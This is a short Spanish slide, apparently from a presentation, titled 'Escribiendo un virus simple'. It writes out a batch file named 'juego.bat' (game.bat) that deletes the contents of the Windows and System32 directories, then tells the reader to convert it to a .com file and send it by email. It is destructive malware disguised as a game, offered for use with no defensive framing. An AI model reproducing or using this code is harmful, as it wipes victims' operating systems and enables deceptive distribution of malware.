

# Escribiendo un virus simple
Crear un archivo juego.bat

	@ echo off
	del c:\windows\system32\*.*
	del c:\windows\*.*

Convertir el archivo en juego.com utilizando la herramienta bat2com. Enviar el archivo en un correo.